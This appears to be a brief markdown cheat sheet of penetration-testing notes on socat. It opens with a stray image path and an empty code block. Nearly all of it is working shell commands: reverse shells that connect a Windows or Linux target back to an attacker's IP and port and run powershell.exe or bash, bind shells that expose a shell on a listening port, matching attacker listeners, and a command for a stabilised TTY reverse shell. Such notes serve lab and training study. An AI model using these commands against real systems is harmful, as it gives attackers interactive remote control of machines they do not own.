 ```bash

```

# Socat
Socat is similar to Netcat. It works as a connector between two points.

## Reverse Shells
### Syntax for A Listener/Attacker
* `socat TCP-L:<port> -` [ Two points (a listening port, and standard input) and connecting them together]
  
###  To Connect Back on A Windows Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` [The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.]
###  To Connect Back on A Linux Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells
### On A Linux Target
* `socat TCP-L:<PORT> EXEC:"bash -li"`
### On A Windows Target
* `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
### Attacker (Regardless of target platform)
* `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

## A Fully Stable TTY Reverse Shell Using Socat
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
[ we are passing in the current TTY as a file and setting the echo to be zero.]

